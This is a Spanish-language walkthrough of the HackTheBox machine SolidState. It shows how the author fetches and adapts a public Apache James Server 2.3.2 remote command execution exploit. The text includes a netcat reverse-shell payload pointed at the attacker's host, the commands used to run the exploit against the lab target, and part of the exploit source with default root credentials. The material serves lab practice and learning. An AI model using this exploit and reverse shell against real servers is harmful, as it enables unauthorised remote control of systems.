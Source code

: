 Lo descargamos en nuestro directorio de trabajo:

```bash
❯ searchsploit -m linux/remote/35513.py
  Exploit: Apache James Server 2.3.2 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/35513
     Path: /usr/share/exploitdb/exploits/linux/remote/35513.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/k4miyo/Documentos/HTB/SolidState/content/35513.py


❯ mv 35513.py james_rce.py
```

Ahora, analizamos el exploit para ver que realiza y si es necesario realizar modificaciones para nuestro caso. El parámetro `payload` lo modificaremos para que se nos entable una reverse shell a nuestro máquina de atacate:

```python
payload = 'nc -e /bin/bash 10.10.14.23 443'
```

Al ejecutar el exploit, vemos que nos solicita parámetros:

```bash
❯ python2 james_rce.py
[-]Usage: python james_rce.py <ip>
[-]Exemple: python james_rce.py 127.0.0.1
```

Vamos a asignarle la dirección IP de la máquina víctima y nos ponemos en escucha por el puerto 443:

```bash
❯ python2 james_rce.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

Ahora tenemos que esperar que alguien se loguee para que se nos entable la shell; sin embargo, para este caso no vamos a recibir ninguna solicitud, por lo que vamos a tomar otro camino siguiendo un poco el proceso del exploit.

```python
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user 
payload = 'nc -e /bin/bash 10.10.14.23 443' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
```